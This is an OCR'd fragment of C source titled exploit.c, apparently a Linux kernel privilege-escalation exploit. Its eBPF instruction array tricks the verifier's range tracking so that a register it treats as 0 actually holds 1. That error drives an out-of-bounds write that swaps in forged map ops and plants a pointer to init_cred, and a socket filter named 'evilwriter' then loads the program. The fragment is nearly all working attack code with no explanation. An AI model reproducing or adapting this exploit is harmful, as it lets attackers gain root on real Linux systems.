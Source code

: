 ```exploit.c
    BPF_LD_MAP_FD(BPF_REG_1, control_map),              // r1 = cmap
    BPF_MOV64_REG(BPF_REG_2, BPF_REG_FP),               // r2 = rbp
    BPF_ALU64_IMM(BPF_ADD, BPF_REG_2, -0x8),            // r2 -= 8
    BPF_ST_MEM(BPF_DW, BPF_REG_2, 0, 0),                // qword[r2] = 0
    BPF_ST_MEM(BPF_DW, BPF_REG_2, -8, 0),
    BPF_EMIT_CALL(BPF_FUNC_map_lookup_elem),            // r0 = map_lookup_elem(cmap, 0)
    BPF_JMP_IMM(BPF_JNE, BPF_REG_0, 0, 1),              // jmp if r0!=0
    BPF_EXIT_INSN(),
    BPF_LDX_MEM(BPF_DW, BPF_REG_6, BPF_REG_0, 0),       // r6 = cmap[0] (==0)
    BPF_MOV64_REG(BPF_REG_9, BPF_REG_0),                // r9 = &cmap[0]
    BPF_MOV64_REG(BPF_REG_8, BPF_REG_0),                // r8 = &cmap[0]
    /* get cmap[1] */
    BPF_LD_MAP_FD(BPF_REG_1, control_map),              // r1 = cmap
    BPF_MOV64_REG(BPF_REG_2, BPF_REG_FP),               // r2 = rbp
    BPF_ALU64_IMM(BPF_ADD, BPF_REG_2, -0x8),            // r2 -= 8
    BPF_ST_MEM(BPF_DW, BPF_REG_2, 0, 1),                // qword[r2] = 1
    BPF_EMIT_CALL(BPF_FUNC_map_lookup_elem),            // r0 = map_lookup_elem(cmap, 1)
    BPF_JMP_IMM(BPF_JNE, BPF_REG_0, 0, 1),              // jmp if r0!=0
    BPF_EXIT_INSN(),
    BPF_LDX_MEM(BPF_DW, BPF_REG_7, BPF_REG_0, 0),       // r7 = cmap[1] (==1)
    /* fix r6/r7 range */
    BPF_JMP_IMM(BPF_JSGE, BPF_REG_6, 0, 2),              // ensure R6>=0
    BPF_MOV64_IMM(BPF_REG_0, 0),
    BPF_EXIT_INSN(),
    BPF_JMP_IMM(BPF_JSGE, BPF_REG_6, 2, 1),              // ensure 0<=R6<=1
    BPF_JMP_IMM(BPF_JA, 0, 0, 2),
    BPF_MOV64_IMM(BPF_REG_0, 0),
    BPF_EXIT_INSN(),
    BPF_JMP_IMM(BPF_JSGE, BPF_REG_7, 0, 2),              // ensure R7>=0
    BPF_MOV64_IMM(BPF_REG_0, 0),
    BPF_EXIT_INSN(),
    BPF_JMP_IMM(BPF_JSGE, BPF_REG_7, 2, 1),              // ensure 0<=R7<=1
    BPF_JMP_IMM(BPF_JA, 0, 0, 2),
    BPF_MOV64_IMM(BPF_REG_0, 0),
    BPF_EXIT_INSN(),
    // exploit r6 range 
    BPF_ALU64_REG(BPF_RSH, BPF_REG_6, BPF_REG_7),       // r6 >>= r7 (r6 regarded as 0, actually 1)
    BPF_ALU64_IMM(BPF_NEG, BPF_REG_6, 0),               // r6 *= -1
    // overwrite ops into forged ops
    BPF_MOV64_IMM(BPF_REG_1, (fakeops_addr>>32) & 0xFFFFFFFFUL),
    BPF_ALU64_IMM(BPF_LSH, BPF_REG_1, 32),
    BPF_ALU64_IMM(BPF_ADD, BPF_REG_1, fakeops_addr & 0xFFFFFFFFUL),
    BPF_ALU64_IMM(BPF_MUL, BPF_REG_6, N),
    BPF_ALU64_REG(BPF_ADD, BPF_REG_8, BPF_REG_6),       // r8 += r6
    BPF_STX_MEM(BPF_DW, BPF_REG_8, BPF_REG_1, 0),
    // forge ptrs[0] with &init_cred
    BPF_MOV64_IMM(BPF_REG_2, 0),
    BPF_MOV64_IMM(BPF_REG_3, init_cred & 0xFFFFFFFFUL),
    BPF_ALU64_IMM(BPF_LSH, BPF_REG_3, 32),
    BPF_ALU64_IMM(BPF_ARSH, BPF_REG_3, 32),
    BPF_ALU64_REG(BPF_ADD, BPF_REG_2, BPF_REG_3),
    BPF_STX_MEM(BPF_DW, BPF_REG_9, BPF_REG_2, 0),
    
    // Go Home
    BPF_MOV64_IMM(BPF_REG_0, 0),                        // r0 = 0
    BPF_EXIT_INSN()
  };

  int evilwriter= create_filtered_socket_fd(writer_insns, ARRSIZE(writer_insns));
  if(evilwriter < 0){
    errExit("reader not initialized");
  }

```